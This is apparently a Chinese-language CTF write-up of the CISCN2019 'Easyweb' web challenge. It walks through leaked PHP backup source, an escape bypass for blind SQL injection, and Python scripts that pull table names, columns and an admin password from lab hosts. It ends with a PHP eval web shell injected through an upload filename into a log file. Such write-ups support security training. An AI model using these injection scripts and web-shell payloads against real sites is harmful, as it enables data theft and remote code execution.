 ```yaml
---
title: '[CISCN2019 总决赛 Day2 Web1]Easyweb'
date: 2024-06-11 14:16:03
tags: 
      - 文件包含
      - sql注入
categories: 刷题笔记
---
```


### [CISCN2019 总决赛 Day2 Web1]Easyweb（源码泄露&盲注&日志包含）

我们打开源码，发现存在个参数id

![image-20240611152518365](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406111525469.png)

我们对id进行注入点测试，没啥用，然后我们对目录进行扫描，发现存在一个robots.txt文件，我们访问它

<!--more-->

![image-20240611152639303](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406111526357.png)

发现其存在`*.php.bak`备份文件，其网站存在`index.php`、`image.php`、`user.php`都对其进行访问

经过访问，我们成功下载下来image.php.bak文件

```
<﻿?php
include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);

```

然后就是进行代码审计了

源码分析：

- GET方式传入变量id的值，若没有则为1
- GET方式传入变量path的值，若没有则为空
- addslashes() 函数返回在预定义字符之前添加反斜杠的字符串，单引号（'）、双引号（"）、反斜杠（\）
- str_replace()函数将两个变量内的\0、%00、\'、'都替换为空
- 将变量\$id与$path拼接进SQL语句

本地测试：

```
<?php
    $id = "\\0";
    echo $id.'<br>';
	$id = addslashes($id);
	echo $id.'<br>';
	$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
	echo $id;
?>

```

得到结果

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201209122733325.png)

也就是说，`\\0`在传入变量`$id`的值后，首先被转义为`\0`，再经过`addslashes()`函数的处理，变量`$id="\\0"`，再由`str_replace()`函数的替换，最终变为`\`。

sql语句变为

```
select * from images where id='\' or path='{$path}'

```

其中`\'`变成了字符串包含在两侧的`'`单引号中，即变量`$id`的值为：`\' or path=`

之后就可以从`{$path}`处拼接SQL语句，但没有查询结果回显，所以尝试盲注，通过猜测数据库名长度，构造**Payload**以验证猜想：

```
?id=\\0&path=or 1=if(length(database())>1,1,-1)%23

```

![image-20240611154431801](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406111544276.png)

成功回显，说明猜想是正确的

接下来就是sql盲注了，我们使用python脚本

先**爆表**

payload

```
if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database() ),0,1))=1,1,-1)%23

```



```
import requests


url = 'http://44c9cc3b-aa02-4f64-b4ab-9e2cca44b58c.node3.buuoj.cn/image.php?id=\\0&path=or 1='
flag = ''
table_name = ''

for i in range(1, 50):
    for c in range(127, 0, -1):
        payload = 'if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database() ),%d,1))=%d,1,-1)%%23' % (i, c)
        r = requests.get(url+payload)

        if "JFIF" in r.text:
            table_name += chr(c)
            print(table_name)
            break

```

![image-20240611154826309](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406111548330.png)

再**爆字段**

因为过滤了`'`单、`"`双引号，所以需要将字符串转换成**十六进制**：

payload

```
if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name=0x7573657273 ),0,1))=1,1,-1)%23

```

```
import requests


url = 'http://44c9cc3b-aa02-4f64-b4ab-9e2cca44b58c.node3.buuoj.cn/image.php?id=\\0&path=or 1='
flag = ''
column_name = ''

for i in range(1, 50):
    for c in range(127, 0, -1):
        payload = 'if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name=0x7573657273 ),%d,1))=%d,1,-1)%%23' % (i, c)
        r = requests.get(url+payload)

        if "JFIF" in r.text:
            column_name += chr(c)
            print(column_name)
            break

```

![image-20240611155232786](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406111552853.png)

爆**数据**

```
import  requests
url = "http://acf6a847-2c9b-4bbf-9128-2fffe272b464.node3.buuoj.cn/image.php?id=\\0&path="
payload = " or ascii(substr((select password from users),{},1))>{}%23"
result = ''
for i in range(1,100):
    high = 127
    low = 32
    mid = (low+high) // 2
    # print(mid)
    while(high>low):
        r = requests.get(url + payload.format(i,mid))
       # print(url + payload.format(i,mid))
        if 'JFIF' in r.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    result += chr(mid)
    print(result)

```

密码就把group_concat(username)改为group_concat(password)

结果为：

账号是admin

密码是d2a6e76d0e6b8bc92784

我们进行登录

进入到新页面后，我们进行文件上传

![image-20240611161044590](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406111610619.png)

上传后，页面提示将文件名记录在日志中

![image-20240611161141003](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406111611035.png)

我们通过文件名写入一句话木马

```
<?php @eval($_POST['1']); ?>
```

抓包，修改filename

![image-20240611161333133](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406111613200.png)

页面提示不能上传php文件，但我们并没有上传php文件，我们猜测可能是一句话木马中的php被过滤了，我们使用短标签

```
<?= @eval($_POST['1']); ?>
```

![image-20240611161531470](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406111615657.png)

成功上传，上传路径已经给我们了，然后我们使用蚁剑进行连接

![image-20240611161613497](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406111616561.png)

连接成功，得到flag

![image-20240611161700513](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406111617574.png)
